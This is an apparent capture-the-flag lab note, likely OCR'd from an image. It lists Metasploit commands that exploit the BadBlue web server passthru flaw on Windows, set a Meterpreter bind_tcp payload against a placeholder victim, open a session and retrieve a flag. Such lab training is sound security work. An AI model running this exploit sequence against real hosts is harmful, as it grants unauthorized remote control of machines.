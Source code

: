     - `use exploit/windows/http/badblue_passthru`
    - `show options`
    - `set payload windows/meterpreter/bind_tcp`
    - `set rhosts <Victim2IP>`
    - `set LPORT 4433`
    - `run`
    - got meterpreter session
    - Observe that this is 2016 and old is 2012
    - get flag

